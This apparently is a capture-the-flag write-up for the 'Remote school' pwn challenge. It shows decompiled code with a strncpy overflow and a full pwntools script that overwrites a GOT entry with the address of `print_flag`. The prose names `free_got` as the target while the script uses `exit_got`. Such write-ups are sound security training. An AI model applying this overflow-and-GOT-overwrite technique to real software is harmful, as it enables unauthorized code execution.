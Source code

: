 # Remote school
> LongChampion, 06/04/2020

## Challenge
This challenge have many functions, with complex structures and flow. But to solve this, you only need to make attention for `class_hacker` and `test` function:  
`class_hacker`:
```cpp
int class_hacker()
{
  char s; // [esp+0h] [ebp-2008h]

  puts("\nWelcome!");
  fgets(&s, 0x2000, stdin);
  printf("Got %s\n", &s);
  return test(&s);
}
```
`test`:
```cpp
int __cdecl test(char *src)
{
  char dest[2048]; // [esp+8h] [ebp-810h]
  int XXXX; // [esp+808h] [ebp-10h]
  _DWORD *p; // [esp+80Ch] [ebp-Ch]
  int _EBP; // [esp+818h] [ebp+0h]

  printf("0x%x\n", &_EBP);
  strncpy(dest, src, 0x808u);                   // can overwrite XXXX and p
  *p = XXXX;                                    // write XXXX to somewhere
  return printf("0x%x\n", XXXX);
}
```
At `test` function, as commented, you can overwrite `XXXX` and `p`, it give you an arbitrary write. The binary is compiled with PIE, but ASLR is turned off in the server. So we can overwrite address of `print_flag` function to somewhere in GOT segment and take the flag. In the solution below, I choose `free_got` to overwrite.

## Solution
```python
#!/usr/bin/env python2
from pwn import *
context.binary = "./online"

r = remote("challenges.auctf.com", 30013)
r.sendlineafter("Name:", "LongChampion")
r.sendlineafter("menu]:", "attend Hacker")

print_flag_addr = 0x56556299
exit_got = 0x5655902c

payload = 'A' * 0x800 + p32(print_flag_addr) + p32(exit_got)
r.sendlineafter("Welcome!", payload)
r.sendlineafter("menu]:", "quit")
r.interactive()
```

Note that, you need trigger `exit` by send `quit` command to the binary. This will cause an infinity loop because `print_flag` will call `exit` (which is now `print_flag`) again and the binary will crash. But we get the flag so who care about this!
